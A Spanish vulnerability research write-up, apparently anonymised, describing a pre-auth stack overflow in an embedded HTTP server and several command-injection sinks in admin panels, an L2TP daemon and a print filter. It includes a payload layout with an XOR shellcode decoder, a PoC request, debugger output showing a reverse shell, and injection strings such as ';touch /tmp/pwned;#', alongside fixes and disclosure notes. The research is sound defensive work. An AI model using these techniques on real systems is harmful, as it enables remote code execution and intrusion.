




// En 30 segundos Un header If-Modified-Since de 220 bytes desborda buf[128] en el conversor de fecha a timestamp → control parcial del RIP . Sink: file.c:136 — strncpy copia strlen(date) (origen) sin bound de destino. Shellcode auto-decodificado con decoder XOR in-stack para evadir bytes prohibidos del HTTP. Lección E2E: el stack bajo gdb difiere +0xC0 bytes del run nativo; solo el run real lo resuelve.
20. Resumen ejecutivo
el servidor HTTP embebido es un pequeño servidor HTTP embebido, extendido en aplicaciones de red (dashboards, gateways, toolchains de routers). Al servir un archivo estático comprueba la cabecera If-Modified-Since. El parser de fechas el conversor de fecha a timestamp copia el valor de la cabecera a un buffer de 128 bytes sin comprobar la longitud de origen: un valor largo desborda el stack.
Como el valor de la cabecera es totalmente controlable y el desbordamiento escribe en el stack, se puede tomar control parcial del flujo . La ejecución de código depende de la toolchain (canarios, NX, ASLR), que en el despliegue embebido de referencia suele estar ausente o ser eludible.
◆ Veredicto Stack overflow · pre-auth · CWE-121 · Control parcial del RIP · Sin CVE · Sin fix · Validado E2E · Requiere ≥1 archivo en el docroot.
21. El sink: file.c el conversor de fecha a timestamp
c // file.c:136 — el conversor de fecha a timestamp
static int el conversor de fecha a timestamp(char *date, time_t *out) { char buf[128]; // buffer fijo en el stack... strncpy(buf, date, strlen(date)); // SIN bound de destino: desborda buf // 'date' proviene de la cabecera If-Modified-Since del request...
}El bug: el tamaño copiado viene dado por el origen (strlen(date)), no por el destino (sizeof(buf)). Un If-Modified-Since de más de 128 bytes empieza a sobrescribir el marco de stack.
22. La explotación (decoder XOR in-stack)
Para convertir el desbordamiento en control del RIP en la toolchain de referencia (sin canario), el shellcode se auto-decoda en el propio stack. El bytecode XOR escrito in-stack evita los bytes malos del parsing HTTP (espacios, salto de línea, etc.) y redirige el RIP hacia allí.
txt# Layout del payload sobre el stack (orden de escritura del strncpy):
[ padding ][ buf[128] ][ ROMPER_EBP ][ EIP_dirige_a_stack ][ shellcode_XOR ]
# El decoder XOR (8 bytes) se ejecuta primero y desofusca el shellcode
# que aparece después en el stack, evadiendo bytes prohibidos del HTTP.
# Ejecución: fecha=<padding><EIP><decoder><shellcode_xor_encoded>La observación clave de la validación: bajo gdb (que usa ptrace) la dirección del stack era +0xC0 bytes distinta de la del run nativo. Solo reconstruyendo el layout en el run real se logró aterrizar el EIP en el shellcode. Ese tipo de disparidad nativo/gdb es exactamente lo que el estándar E2E exige demostrar.
23. El PoC
El PoC es un GET con un If-Modified-Since de ~220 bytes. Una prueba limpia del control de flujo es un valor guía:
http# GET a un archivo del docroot con la cabecera larga
GET /index.html HTTP/1.1
Host: 127.0.0.1:8080
If-Modified-Since: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA... # ~220 bytes
# Con ASAN se observa el stack-buffer-overflow en el conversor de fecha a timestamp
# Y con el EIP guiado, el RIP aterriza en 0x41414141 (control parcial)24. Validación E2E (ASAN + gdb)
bash# Compilar el servidor HTTP embebido con ASAN para confirmar el overflow exacto
gcc -fsanitize=address -g -O0... el módulo del servidor HTTP
# 1. Reporte ASAN del desbordamiento en el stack
$./app
ERROR: AddressSanitizer: stack-buffer-overflow on address... WRITE of size 4 at... # el conversor de fecha a timestamp, buf[128] sobrescrito
# 2. Control del EIP bajo gdb
(gdb) r
Program received signal SIGSEGV
RIP = 0x41414141 # control parcial del flujo
# 3. Run nativo: reconstruir el layout +0xC0 para aterrizar el shellcode
$./app # reverse shell low-priv hacia el atacante 
Fase 1 — Identificación del sink el conversor de fecha a timestamp en file.c, el strncpy sin bound de destino.

Fase 3 — Servidor en marcha y payload del header If-Modified-Since preparado.

Fase 4 — El desbordamiento se dispara con la fecha de 220 bytes.

Fase 5 — Shell de baja autoridad obtenida vía el decoder XOR in-stack.
25. Limitaciones de toolchain y mitigación Mitigación Impacto en el PoC Canario (-fstack-protector) Aborta antes del ret si está activo; no lo estaba en la toolchain de referencia NX stack Necesita el decoder+RIP ejecutable; en MCU embebido típicamente NX desactivado ASLR El layout in-stack es determinista (dirección fija), elude ASLR del heap/libs
⚠ Divulgación responsable El fix en el mantenedor es copiar con un bound basado en el destino (strncpy(buf, date, sizeof(buf)-1) y terminar), o validar la longitud de la cabecera antes del parseo. Comunicado al mantenedor como parte del proceso responsable.
Continuidad. Dos casos de impacto acotado,included porque son la leccion: una primitiva real no es automaticamente una cadena.
26. Resumen de Ambos Casos Caso Clase Primitiva ¿Cadena a RCE? Conclusión la biblioteca cliente del protocolo de streaming el decodificador del formato de serialización CWE-125 OOB read (fuga) No Info-leak, sin ejecución el servidor HTTP mínimo el generador de credenciales CWE-78 Command injection Sí (local) Utilidad CLI, no alcanzable remota
27. Caso A — la biblioteca cliente del protocolo de streaming OOB read el decodificador del formato de serialización la biblioteca cliente del protocolo de streaming es la librería del cliente el protocolo de streaming usada por el volcador de flujos del protocolo y, a través de él, por muchísimos reproductores y utilidades de streaming. El protocolo el protocolo de streaming encapsula mensajes el formato de serialización (Action Message Format) y el tipo 0x14 corresponde a el decodificador del formato de serialización INVOKE. El parser de estructuras el decodificador del formato de serialización lee valores con un rango mal acotado, produciendo una lectura fuera de límites .
// la routine de lectura de numero del decodificador / la routine de lectura de cadena del decodificador: lectura sin validar el rango
double la routine de lectura de numero del decodificador(el objeto contenedor del formato *obj) {... // avanza el buffer según la longitud declarada sin comprobar // que quede dentro del payload => OOB READ (CWE-125)
}
// Vía de entrada: un servidor el protocolo de streaming malicioso envía packet type 0x14
// (el decodificador del formato de serialización INVOKE) con una longitud que empuja la lectura fuera del buffer
packet_type = 0x14; // el decodificador del formato de serialización invoke, from server -> client El desencadenante es que el cliente (el volcador de flujos del protocolo/aplicación) procesa un mensaje del servidor el protocolo de streaming. Al ser una lectura fuera de límites, el resultado es una fuga de memoria del heap y, en el mejor caso, un crash del cliente. No hay una cadena directa a ejecución de código arbitraria en las compilaciones típicas. Además, esta zona del código pertenece a una familia de bugs previos de la biblioteca cliente del protocolo de streaming (por ejemplo el strcpy sin bound en el handler de metadata), que ya fueron corregidos; este sumidero concreto repite el patrón de validación ausente.
Alcance real
Es una primitiva de fuga de memoria en el lado cliente, alcanzable solo contra una aplicación que se conecte a un servidor el protocolo de streaming malicioso. No escala a RCE, y es variante de un patrón ya corregido en la misma librería.28. Caso B — el servidor HTTP mínimo el generador de credenciales el servidor HTTP mínimo es un servidor HTTP mínimo muy usado en sistemas embebidos y routers. Distribuye, junto al daemon, utilidades auxiliares —entre ellas el generador de credenciales, que genera los ficheros de autenticación. El argumento (normalmente el nombre de archivo de passwords) llega a un system sin validar:
// el generador de credenciales:214-215 — el argumento del usuario se inyecta en un comando
sprintf(command, "cp %s %s", argv[1],...); // argv[1] sin validar
system(command); // /bin/sh -c "cp <argv[1]>..."
// Con argumento"; touch /tmp/pwned;#" se inyecta ejecución local./el generador de credenciales ";touch /tmp/pwned;#" # command injection local Es un command injection real: el input del usuario llega a sh -c. La limitación crítica es que el generador de credenciales es una utilidad de línea de comandos local —no un daemon que escuche. Para explotarla, un atacante ya necesita ejecución local en el sistema o un servidor CGI/helper que derive su invocación de input remoto, que no es el patrón de despliegue por defecto.
Alcance real
Inyección genuina pero con superficie local: requiere un deploy donde un helper invoque el generador de credenciales con input influenciable, o acceso local previo. No es alcanzable desde internet contra el daemon por defecto.29. La Lección: Primitiva vs Impacto Lo que estos dos casos enseñan, junto a los demás de la serie, es que la gravedad de un hallazgo no depende solo de la clase (CWE), sino del encadenamiento a ejecución de código y del despliegue real :
la biblioteca cliente del protocolo de streaming es un bug real de lectura fuera de límites que se queda en fuga/crash del cliente, sin camino a RCE.el servidor HTTP mínimo el generador de credenciales tiene inyección de comandos real, pero solo alcanzable con ejecución local previa o un helper no-estándar. En contraste, el daemon de portal cautivo, el daemon de autenticación y redirección y el servidor HTTP embebido demostraron ejecución de código verificada . La diferencia no es el CWE, es la cadena completa y el alcanzamiento del código vulnerable desde una superficie real. Para evaluar un hallazgo hay que preguntarse: ¿el código vulnerable es alcanzable desde donde un atacante puede estar, y convierte eso en ejecución?
30. Referencias Referencia Descripción la biblioteca cliente del protocolo de streaming Librería cliente el protocolo de streaming (el volcador de flujos del protocolo) la routine de lectura de numero del decodificador/String Sink del OOB read (packet type 0x14) el generador de credenciales:214 Sink sprintf + system en el servidor HTTP mínimo CWE-125 Out-of-bounds Read CWE-78 Improper Neutralization in OS Command
Continuidad. Y cuatro sinks mas, en la suite de administracion del servidor, donde la pregunta correcta no es si se inyecta sino si se alcanza.
31. Resumen de los Cuatro Sinks Target Sink Clase Privilegio Alcance el panel web de administración del servidor el instalador de módulos del lenguaje, vía web:45 CWE-78 root Post-auth el panel web de administración restringida ssh/el script de configuración por web:9/12 CWE-78 no-root Post-auth el daemon de túnel L2TP/IPsec el script de subida de interfaz/down ($6) CWE-78 root L2TP (config) el spooler de impresión el generador de filtros de impresión sh -c CWE-78 lp LAN
El hilo común es que todos ejecutan un shell con datos que en algún punto provienen de la red o de un campo de configuración sin sanear. Son la clase de bug que el core de cada producto ha ido endureciendo, pero que sobrevive en los scripts admin y los helpers —lo que esta serie llama la superficie que el mantenimiento no mira.
32. el panel web de administración del servidor el instalador de módulos del lenguaje, vía web El módulo de instalación de módulos Perl de el panel web de administración del servidor (el gestor de módulos del lenguaje) pasa los argumentos del usuario directamente a la apertura de un pipe de comandos:
// el instalador de módulos del lenguaje, vía web:45 — el argumento del usuario entra a un comando
open(CMD, "...". $module. " |") or die(...);
// un pipe "|" se ejecuta con /bin/sh -c; $module sin escapar => inyección
// Presente sin cambios desde hace muchos años (sink heredado/legacy) El sink está en el cierre del pipe con |, que el intérprete ejecuta con /bin/sh -c. Un módulo como;touch /tmp/x;# termina la parte "normal" y ejecuta el comando inyectado. El alcance es post-auth : requiere una sesión válida de el panel web de administración del servidor (con los privilegios del administrador, root). No es un bug pre-auth.
33. el panel web de administración restringida ssh/el script de configuración por web y el buscador de ficheros por web el panel web de administración restringida comparte el motor el servidor web de administración con el panel web de administración del servidor pero sirve a usuarios normales, no al admin. Tiene dos sinks de la familia:
// ssh/el script de configuración por web:9/12 — el tipo ($type) se interpola sin quotemeta
$cmd = "...". $type. "...";
system($cmd); // $type del usuario, sin escapar
// htaccess/el buscador de ficheros por web:9 — open con pipe sobre input
open(FIND, "find...". $_. " |") or die(...);
// $_ (dato del request) entra a un pipe sh -c sin quotemeta Ambos son post-auth y, por defecto, corren con el uid del usuario de el panel web de administración restringida (el servidor web de administración baja el euid): el RCE llega como un usuario no-root. La inyección es real pero el impacto queda acotado a la cuenta del usuario autenticado salvo que la configuración eleve privilegios.
34. el daemon de túnel L2TP/IPsec L2TP → scripts el script de subida de interfaz el daemon de túnel L2TP/IPsec es un servidor PPP/BGP/L2TP para BRAS y LNS de ISP. En su modo de compatibilidad la capa de compatibilidad del demonio de túnel, ejecuta los scripts el script de subida de interfaz/ip-down con los campos de la sesión sin escapar. El AVP que llega sin sanear es el CALLING_SID (el identificador llamante), que se expande en el script:
// el script de subida de interfaz/ip-down — CALLING_SID ($6) se evalúa sin comillas
eval "$6"; // el AVP llamante del túnel L2TP entra a un eval
// Origen: el Calling-SID del paquete ICRQ L2TP (UDP 1701), 0-click
// con conteño:;id> /tmp/x;# => ejecución en el script de sesión Es un camino pre-auth y 0-click por UDP L2TP (puerto 1701), porque el túnel se inicia antes de autenticarse. La ejecución es root (los scripts de ppp corren como root). La limitación real es que requiere la config de compatibilidad la capa de compatibilidad del demonio de túnel con los scripts presentes, que no es la instalación por defecto pura.
35. el filtro de la impresora: el navegador de impresoras → el generador de filtros de impresión el spooler de impresión es el sistema de impresión estándar. El daemon el navegador de impresoras descubre impresoras de red y, al procesar trabajos, deriva el filtro el generador de filtros de impresión que ejecuta con un shell:
// el navegador de impresoras → el generador de filtros de impresión → sh -c
// El perfil de color (el perfil de color de la impresora) se pasa fuera del allowlist
// y se interpola en el comando del filtro:
sh -c "... el generador de filtros de impresión..." // perfil no validado => inyección
// Origen: perfil manipulado vía descubrimiento el navegador de impresoras
// (ya cubierto por la familia CVE-2024-47177 — variante allowlist) El vector es el descubrimiento de impresoras de red (el navegador de impresoras): un perfil fuera del allowlist del mantenedor se interpola en el comando del filtro. Ejecuta como lp (usuario del sistema de impresión). El alcance es una LAN con impresión en red (el navegador de impresoras activo), no Internet de forma directa.
36. El bypass de confianza X-SSL-Client-* el panel web de administración del servidor/el panel web de administración restringida validan la autenticación por cliente SSL. En despliegues detrás de un reverse proxy, el motor el servidor web de administración confía en las cabeceras X-SSL-Client-* que el proxy inyecta para indicar el certificado del cliente:
// la biblioteca del servidor web de administración — confianza en las cabeceras SSL del proxy
$header{"X-SSL-Client-DN"}, $header{"X-SSL-Client-Cert"}...
// se usan para resolver el usuario por certificado (find_user_by_cert) La clase de riesgo conceptual es que, si el motor no distingue una cabecera inyectada por el atacante de una inyectada por el proxy, todos los sinks post-auth de la familia podrían volverse pre-auth por composición. Tras validación rigurosa, el alcance real de este bypass en config estándar es limitado:
Requiere la opción de confiar en la IP real=1 en el fichero de configuración del servidor web de administración (opt-in del admin para reverse proxy). El peer IP del cliente debe estar dentro de trusted_proxies; si no, el motor borra esas cabeceras (delete $header{...}). El X-SSL-Client-DN espoofeado debe coincidir exacto con un certificado pre-registrado a un usuario en find_user_by_cert. No es un bypass ciego fabricable a voluntad. Nota de honestidad técnica
Con los tres prerequisitos activos, el bypass sí convierte los sinks post-auth en pre-auth. Pero ninguna de esas condiciones es el valor por defecto de la configuración: son cambios que un admin habilita para operar tras un reverse proxy. La lección general de este análisis es verificar siempre el valor real de la configuración por defecto antes de declarar una clase de alcance ; "común en producción" no es lo mismo que "config por defecto".37. Referencias Referencia Descripción el panel web de administración del servidor el instalador de módulos del lenguaje, vía web:45 Sink open(CMD,"...|") → sh -c, heredado/multi-año el panel web de administración restringida ssh/el script de configuración por web:9/12 system con $type sin quotemeta el panel web de administración restringida htaccess/el buscador de ficheros por web:9 open(FIND,"...|") con input del request el daemon de túnel L2TP/IPsec el script de subida de interfaz/down eval de CALLING_SID ($6) sobre AVP L2TP el filtro de la impresora el navegador de impresoras el perfil de color de la impresora → el generador de filtros de impresión sh -c (variante CVE-2024-47177) la biblioteca del servidor web de administración Confianza en cabeceras X-SSL-Client-* (bypass condicional) CWE-78 Improper Neutralization in OS Command
Divulgación responsable
Estos sinks se publican con fines de hardening y concienciación. La mitigación común a toda la familia es simple y robusta: nunca interpolar datos de red o de request en un shell — usar quotemeta/escapado en Perl para la familia el servidor web de administración, no derivar comandos por eval en los scripts ppp, y validar los perfiles contra el allowlist en el spooler de impresión. Cada caso fue comunicado al mantenedor como parte del proceso responsable.